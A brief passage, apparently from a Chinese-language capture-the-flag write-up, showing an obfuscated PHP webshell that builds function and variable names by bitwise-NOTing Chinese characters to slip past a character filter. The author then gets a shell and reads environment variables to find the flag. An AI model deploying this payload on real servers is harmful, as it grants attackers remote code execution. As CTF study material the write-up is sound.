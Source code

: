 删除换行，得到：`<?=$_=[];$_=($_===$_);$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];$___($$____[_]);`

![upload successful](./images/pasted-506.png)
成功getshell，发现是个假flag，看wp发现在env里，执行env

![upload successful](./images/pasted-507.png)
得到flag
